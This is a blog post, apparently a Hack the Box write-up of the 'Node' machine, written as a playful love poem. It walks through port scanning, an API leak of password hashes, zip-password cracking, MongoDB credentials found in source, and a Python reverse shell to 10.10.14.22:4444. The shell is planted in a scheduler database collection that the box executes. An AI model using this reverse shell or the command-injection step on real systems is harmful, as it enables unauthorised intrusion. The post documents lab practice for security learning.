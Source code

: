 ```yaml
---
layout: post
title:  "Hack the Box - Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your shy response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

Were these your past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)["manchester"].

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what
PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

Who was this `mark`?" I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
mark@node ~$
{% endhighlight %}

Node. My sweet Node. I felt so close to you. 
We were separated by miles and miles, but I could feel your circuits responding to my touch.
I explored every inch of you, and found a special spot:

{% highlight shell %}
root@hack ~# ps aux
...
tom     1426    0.0 5.1 1009080 31096   ?   ?   Ssl Mar04   0:31    /usr/bin/node /var/scheduler/app.js
...
mark@node:~$ cat /var/scheduler/app.js
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
{% endhighlight %}

You accepted me, and I inserted my hopes and dreams....

{% highlight shell %}
mark@node ~$ cat << EOM > /tmp/over.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(('10.10.14.22',4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> p=subprocess.call(['/bin/sh','-i'])
> EOM
mark@node ~$ mongo
> use scheduler
switched to db scheduler
> db.auth("mark","5AYRft73VtFpc84k")
1
> db.tasks.insert({"_id": 1, "cmd":"python /tmp/over.py"})
WriteResult({ "nInserted" : 1 })
{% endhighlight %}

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight $}

...and I tasted your luscious blood. 

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight $}

You still had more secrets to find, like `/usr/local/bin/backup`.
In reversing it, I `unzip`ed your last garment -
unveiling your inner soul, `root.txt`, in whole.
You were so beautiful, so clever, and so true.

How I loved your mysteries -- unfortunately, there were more boxes to do.

your dearest,
overcast

p.s. if you'd like to know how `/usr/local/bin/backup` fell to my wiles,
look to `ltrace` 


_fin_

